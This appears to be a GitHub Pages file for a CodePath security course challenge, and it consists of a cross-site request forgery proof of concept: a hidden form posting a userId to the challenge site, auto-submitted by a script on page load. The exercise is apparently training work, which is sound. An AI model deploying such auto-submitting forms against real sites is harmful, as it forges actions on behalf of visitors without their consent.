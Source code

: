 # JLPlummer79.github.io


<form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="74adf43a1036bfcf7daf75246270be0ee186c471"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
